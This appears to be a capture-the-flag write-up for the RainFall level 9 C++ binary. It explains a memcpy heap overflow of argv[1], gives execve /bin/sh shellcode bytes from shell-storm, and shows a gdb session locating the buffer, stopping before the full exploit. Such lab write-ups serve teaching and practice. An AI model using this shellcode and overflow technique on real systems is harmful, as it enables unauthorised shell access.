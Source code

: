 # Level 9

For the first time, we have a C++ executable, so it is a bit trickier as things get mangled a little bit.
The program allocates two instances of the class `N`. The class contains an integer and a char array.

In the function setAnnotation, we will memcpy the entirety of our argv[1] into this char array.

Shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-811.html): "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"


```shell
level9@RainFall:~$ gdb -q level9 
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) break *main+136 # Right after the setAnnotation call
Breakpoint 1 at 0x804867c
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0x0804867c in main ()
(gdb) x/x $eax
0x804a00c:	0x41414141 # "AAAA"
